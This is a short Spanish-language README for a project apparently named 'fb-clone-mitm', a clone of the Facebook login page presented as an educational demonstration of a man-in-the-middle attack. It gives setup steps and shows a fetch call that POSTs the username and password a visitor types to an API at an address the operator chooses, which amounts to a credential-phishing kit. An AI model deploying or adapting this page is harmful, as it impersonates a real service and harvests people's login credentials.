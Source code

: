 # Inicar

- Clonar repositorio

``` sh
  git clone https://github.com/Miguel-r-dev/fb-clone-mitm.git
```

- Instalar dependencias

```sh
  npm install 
```

- Modificar la url **http://localhost:3000/login** en la linea 11 del archivo **MainView.jsx**, por la ip o url donde se esté ejecutando la API

```sh
  await fetch('http://ip-api:3000/login', { 
        method: 'POST',
        headers: {
          'Content-Type': 'application/json',
        },
        body: JSON.stringify({username: user, password: pass}),
      });
```

- Iniciar el proyecto

```sh
  npm run dev 
```

## Importante

Este es un clon del login de facebook creado con fines educativos para la demostración de un ataque MITM.
